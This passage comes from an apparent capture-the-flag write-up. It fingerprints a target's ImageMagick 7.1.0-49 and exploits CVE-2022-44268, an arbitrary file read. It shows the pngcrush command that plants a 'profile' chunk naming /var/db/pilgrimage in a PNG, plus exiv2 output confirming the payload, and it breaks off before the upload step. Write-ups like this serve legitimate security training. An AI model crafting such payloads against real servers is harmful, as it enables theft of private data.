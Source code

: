 ```
Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype jbig jng jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (7.5)
```

It's using the version `7.1.0-49`.

And if we search [ExploitDB](https://www.exploit-db.com/) for
`ImageMagick 7.1.0-49`, we find
[ImageMagick 7.1.0-49 - Arbitrary File Read](https://www.exploit-db.com/exploits/51261)
([CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268))!

#### LFI ([CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268))

[CVE-2022-44268](https://nvd.nist.gov/vuln/detail/CVE-2022-44268) is an
information disclosure vulnerability affecting ImageMagick version `7.1.0-49`.
When this utility parses a specifically crafted PNG file, like when performing
the resizing operation, the resulting image can embed the content of an
arbitrary file.

You can read more about it on
[Metabase Q](https://www.metabaseq.com/imagemagick-zero-days/).

##### Exploitation

I'll follow the instructions of
[this PoC](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)
to exploit it.

The goal is to read the content of the `/var/db/pilgrimage` file, which is used
by the website to store user-related data.

I'll start by adding this text to an existing `image.png` file:

```sh
❯ pngcrush -text "a" "profile" "/var/db/pilgrimage" "/workspace/image.png"
```

Let's check if it worked:

```sh
❯ exiv2 -pS "/workspace/pngout.png"
```

```
<SNIP>
  175715 | tEXt  |      26 | profile./var/db/pilgrimage     | 0x704d8d3d
<SNIP>
```

It did.

Now let's ask the website to shrink the image containing our payload:
